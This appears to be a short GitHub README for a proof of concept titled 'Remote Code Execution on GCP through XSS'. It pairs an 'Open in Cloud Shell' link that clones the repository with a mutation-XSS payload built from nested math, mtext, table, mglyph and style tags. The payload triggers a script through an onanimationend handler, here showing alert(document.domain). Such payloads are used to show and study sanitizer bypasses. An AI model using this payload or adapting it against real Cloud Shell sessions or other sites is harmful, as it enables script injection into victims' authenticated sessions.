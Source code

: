 # gcp_rce
Remote Code Execution on GCP through XSS - PoC

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?cloudshell_git_repo=https://github.com/Nowasky/gcp_rce.git)

<style>@keyframes x{}</style>
<math><mtext><table><mglyph><style><x style="animation-name:x" onanimationend="alert(document.domain)">

